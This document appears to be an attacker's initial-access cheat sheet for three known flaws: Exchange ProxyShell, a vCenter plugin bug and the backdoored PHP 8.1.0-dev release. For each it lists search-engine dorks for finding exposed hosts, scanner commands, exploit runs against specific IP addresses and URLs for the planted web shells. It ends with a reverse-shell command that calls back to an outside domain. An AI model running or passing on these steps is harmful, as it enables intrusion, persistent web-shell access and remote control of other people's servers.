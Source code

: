 # Exploit Public-Facing

Adversaries may attempt to take advantage of a weakness in an 
Internet-facing computer or program using software, data, or commands in
 order to cause unintended or unanticipated behavior.

### **CVE-2021-34473**

This vulnerability allows remote attackers to execute arbitrary code on 
affected installations of Microsoft Exchange Server. Authentication is 
not required to exploit this vulnerability.

#### Discovery

##### shodan

https://github.com/sansatart/scrapts/blob/master/shodan-favicon-hashes.csv

```
http.favicon.hash:1768726119  country:in
```

```
vuln:CVE-2021-34473
```

##### Nuclei

```
C:\Users\Administrator\nuclei-templates>nuclei -l ..\ips.txt -t nss\proxyshell.yaml
```

#### Exploit

```
git clone https://github.com/ktecv2000/ProxyShell
```

```
python exploit.py  103.102.101.100  administrator@example.com
```

##### Access web shell

```
https://103.102.101.100/aspnet_client/krnrvt.aspx
```

## CVE-2021-21972

The vSphere Client (HTML5) contains a remote code execution 
vulnerability in a vCenter Server plugin. A malicious actor with network
 access to port 443 may exploit this issue to execute commands with 
unrestricted privileges on the underlying operating system that hosts 
vCenter Server.

#### discovery

##### shodan

```
http.title:"ID_VC_Welcome"
```

##### Nuclei

```
C:\Users\Administrator\nuclei-templates>nuclei -l ..\urtl.txt cve:2021-21972
```

#### Exploit

https://github.com/horizon3ai/CVE-2021-21972

```
E:\Initial-Access\CVE-2021-21972>python CVE-2021-21972.py -t 213.214.215.216  -f nss.jsp -p ProgramData\\VMware\\vCenterServer\\data\\perfcharts\\tc-instance\\webapps\\statsreport\\nss.jsp -o win
```

##### Access web shell

```
https://213.154.80.121/statsreport/nss.jsp?go=netstat
```

### PHP 8.1.0 RCE

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header

#### Discovery

###### censys

```
services.http.response.headers.x_powered_by: PHP/8.1.0-dev
```

###### shodan

```
PHP/8.1.0-dev
```

###### whatweb

```
whatweb http://130.185.123.176:8080
```

#### Exploit

https://github.com/flast101/php-8.1.0-dev-backdoor-rce

```
python3 rshell-php8.py http://130.185.123.176:8080 nooranetred.com 443
```
